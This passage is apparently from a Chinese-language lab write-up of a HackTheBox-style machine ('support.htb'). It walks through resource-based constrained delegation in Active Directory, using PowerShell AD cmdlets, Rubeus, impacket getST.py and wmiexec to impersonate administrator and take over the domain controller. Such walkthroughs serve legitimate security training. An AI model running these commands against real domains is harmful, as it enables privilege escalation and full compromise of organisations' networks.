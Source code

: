 使用内置的AD模块，给我们生成的计算机对象设置权限
```
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a0b0493e43e147ab81ff912de26d54bf.png)



将Rubeus程序上传到机子里，然后生成一个rc4的哈希值，之后票证伪造有用
```
upload Rubeus.exe
.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19659fb27f5147f2a450990bf71f7ba0.png)


## 使用票证
现在下载一些工具来使用这个票证
```
https://github.com/SecureAuthCorp/impacket/tree/master/examples
pip3 install impacket==0.9.24
pip3 install pyasn1
sudo apt install krb5-user
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a3f205f5d08442cdb8c32c9ecd724d4d.png)

然后设置kali上的环境变量和删除之前使用过的票证
```
getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
kdestroy
export KRB5CCNAME=ticket.ccache
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f3b035b80b8492f86434c5a0b5be573.png)



都设置好后我们还需要在本地解析靶机的dns域名，由于我们之前就解析过，这里就不用再演示了

![在这里插入图片描述](https://img-blog.csdnimg.cn/81abca2abd924429a497dd437eeb9821.png)


```
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
```
获得机子最高权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/0042dab24ca54306836a12bb7aec9d20.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/12679e30724b48aca31357e4ac01c3fe.png)


